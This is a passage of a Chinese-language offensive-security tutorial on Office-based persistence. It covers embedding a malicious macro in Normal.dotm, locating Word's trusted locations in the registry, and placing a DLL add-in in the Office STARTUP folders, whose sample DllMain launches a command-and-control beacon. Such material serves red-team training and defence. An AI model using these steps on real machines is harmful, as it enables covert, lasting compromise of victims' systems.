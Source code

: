 #### 4. Office Templates

##### 默认文档

Microsoft Office 在`%APPDATA%`中包含一个存储所有模板的文件夹。Office启动时，基本模板都会用作默认文档

```cmd
%APPDATA%\Microsoft\Templates\Normal.dotm
```

将恶意宏嵌入到基本模板中，受害者可能会在一天中多次启动Office，这样就能达到权限维持的目的

##### Office 加载项

Office 加载项用于扩展 Office 程序的功能。当 Office 应用程序启动时，系统会检查存储加载项的文件夹，以便应用程序加载它们

可以执行以下命令来发现可以删除加载项的 Microsoft Word 的受信任位置

```powershell
Get-ChildItem "HKCU:\Software\Microsoft\Office\16.0\Word\Security\Trusted Locations"
```

Office 加载项是 DLL 文件，根据应用程序具有不同的扩展名。例如，Word 为.wll ，Excel 为.xll

生成恶意DLL，移动到 Word 启动文件夹，恶意DLL每次 Word 启动时执行加载项

```cmd
%APPDATA%\Microsoft\Word\STARTUP
%APPDATA%\Microsoft\PowerPoint\STARTUP
%APPDATA%\Microsoft\Excel\STARTUP
```

这将导致 Microsoft Word 崩溃，从而向用户提供软件已被修改或需要重新安装的指示

##### 优雅的方法

一种优雅的方法是创建一个不会导致应用程序失败的自定义 DLL

DLL_PROCESS_ATTACH 会将 DLL 加载到当前进程（Word、Excel、PowerPoint 等）的虚拟地址空间中。加载 DLL 后，它将启动任意可执行文件，该可执行文件

将打开与命令和控制服务器的通信通道

```c
// Word 插件 – DLL
// dllmain.cpp : Defines the entry point for the DLL application.
#include "pch.h"
#include <stdlib.h>
 
BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH: 
        system("start beacon.exe");
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```
